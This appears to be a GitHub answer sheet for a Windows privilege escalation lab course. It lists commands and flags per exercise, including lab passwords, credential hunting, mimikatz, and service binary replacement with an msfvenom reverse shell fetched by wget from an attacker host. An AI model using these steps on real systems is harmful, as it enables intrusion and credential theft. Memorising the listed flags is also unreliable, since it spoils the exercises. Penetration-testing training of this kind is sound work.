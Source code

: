 # Commands to execute  to get flags for labs

### Chapter 16 - Windows Privilege Escalation

**==== 16.1.2 ====**

Q1) Check the users of the local group Remote Management Users on CLIENTWK220 (VM #1). Enter a user which is in this group apart from steve.
  - Use VM #1
  - netcat to machnine `nc <machine ip> 4444`
  - use this command `Get-LocalGroupMember "Remote Management Users"` and the flag should be the username `daveadmin`

Q2) Enumerate the installed applications on CLIENTWK220 (VM #1) and find the flag.
  - Use VM #1
  - netcat to machnine `nc <machine ip> 4444`
  - use this command `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"` and the flag will be in the output

Q3) We'll now use an additional machine, CLIENTWK221 (VM #2), to practice what we learned in this section. Access the machine via RDP as user mac with the password IAmTheGOATSysAdmin!. Identify another member of the local Administrators group apart from offsec and Administrator.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command `Get-LocalGroupMember "Administrators"` and the flag should be the username `roy`

Q4) Enumerate the currently running processes on CLIENTWK221 (VM #2). Find a non-standard process and locate the flag in the directory of the corresponding binary file.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command to find the proccess name `Get-Process`
  - once the name is identified use this comand to find the binary `Get-Process <proccess name> | Select-Object Path`
  - go to the directory where the exe is and `type flag.txt`

**==== 16.1.3 ====**    

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
  - rdp to machnine `xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.190.220 /h:650`
  - start powershell
  - use this command ro run powershell as the admin `runas /user:backupadmin powershell` with the password `admin123admin123!`
  - type `type C:\Users\backupadmin\desktop\flag.txt`

Q2) Log into the system CLIENTWK220 (VM #1) via RDP as user steve. Search the file system to find login credentials for a web page for the user steve and enter the password as answer to this exercise.
  - flag is `thisIsWhatYouAreLookingFor`
  - Use VM #1
  - rdp to machnine `xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.190.220 /h:650`
  - use this command `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"` and the flag will be in the output
  - use this command to find txt file`Get-ChildItem -Path C:\Users\steve\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
  - type it out

Q3)Connect to CLIENTWK221 (VM #2) via RDP as user mac with the password IAmTheGOATSysAdmin! and locate sensitive information on the system to elevate your privileges. Once found, use the credentials to access the system as this user and find the flag on the Desktop.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command to runas another user `run-as /user:richmond powerhshell` and when prompted enter password `GothicLifeStyle1337!`
  - once loged in the flag is on the desktop `type C:\Users\richmond\Desktop\flag.txt`

**==== 16.1.4 ====**  

Q1) Follow the steps above and obtain an interactive shell as daveadmin on CLIENTWK220 (VM #1). Enter the flag, which can be found on the desktop.
  - evil-winrm to machnine `evil-winrm -i 192.168.190.220 -u daveadmin -p "qwertqwertqwert123\!\!"`
  - cd Desktop adn type flag

Q2) Connect to CLIENTWK220 (VM #1) as daveadmin via RDP. Use the Event Viewer to search for events recorded by Script Block Logging. Find the password in these events.
  - flag is `ThereIsNoSecretCowLevel1337`
  - Use VM #1
  - rdp `xfreerdp /u:daveadmin /p:"qwertqwertqwert123\!\!" /v:192.168.190.220 /h:650`
  - use event viewer and filter for event id `4101`
  - find password
    
Q3) Connect to CLIENTWK221 (VM #2) via RDP as user mac with the password IAmTheGOATSysAdmin!. Enumerate the machine and use the methods from this section to find credentials. Utilize them and find the flag. 
  - use VM #2
  - rdp to target `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - get the history ` type C:\Users\mac\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
  - flag is there

**==== 16.1.5 ====**  

Q1) Follow the steps from this section and examine the output headlined Checking for DPAPI Credential Files. Enter one of the MasterKeys as answer.
  - flag is `7ba528f7-4e73-48a3-8a67-e5680688c9ff`
  - Use VM #1
  - nc into the machine `nc 192.168.190.220 4444`
  - download mimikatz from kali web server and find `DPAPI Credential Files` and it is the `MasterKey` field

Q2) Download a precompiled version of Seatbelt or compile it yourself. To find a precompiled version of Seatbelt, you can enter the search term compiled seatbelt github download in a search engine. Transfer the binary to VM #1 and launch it with the option -group=all. Find a section named InstalledProducts and locate the entry for XAMPP. Enter the value of DisplayVersion as answer to this exercise.
  - flag is `7.4.29-1`
  - Use VM #1
  - follow what it says
    
**==== 16.2.1 ====**  

Q1) Follow the steps outlined in this section on CLIENTWK220 (VM #1) to replace the service binary of the service mysql. Enter the flag, which can be found on the desktop of user daveadmin.
  - Use VM #1
  - use nc `nc 192.168.190.220 4444`
  - on kali, compile the addUser.c with `x86_64-w64-mingw32-gcc Add.c -o adduser.exe` and start a web server
  - on target run `move C:\xampp\mysql\bin\mysqld.exe mysqld.exe`=
  - pull down the binary `wget http://192.168.45.224/adduser.exe -o C:\xampp\mysql\bin\mysqld.exe`
  - restart computer `restart-computer`
  - login to rdp with new user `xfreerdp /u:dave2 /p:password123! /v:192.168.190.220 /h:600` and read flag on `daveadmin` desktop

Q2) Connect to CLIENTWK221 (VM #2) via RDP as user milena with the password MyBirthDayIsInJuly1!. Find a service in which milena can replace the service binary. Get an interactive shell as user running the service and find the flag on the desktop.
  - use VM #2
  - conect with xfreerdp `xfreerdp /u:milena /p:MyBirthDayIsInJuly1! /v:192.168.190.221 /h:600`
  - on kali, create msfvenom payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.224 LPORT=4444 -f exe -o  BackupMonitor.exe` and host on web server
  - on target remove this exe from dir `move C:\BackupMonitor\BackupMonitor.exe .\mysqld.exe`
  - cd to the directory download the file `wget http://192.168.45.224/BackupMonitor.exe -o C:\BackupMonitor\BackupMonitor.exe`
  - set up listener on kali `nc -nlvp 4444`
  - restart computer and listen to kali `restart-computer`
  - flag is  `type C:\Users\roy\desktop\flag.txt`

**==== 16.2.2 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1

**==== 16.2.3 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1

**==== 16.3.1 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
  - 
**==== 16.2.2 ====**

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
    

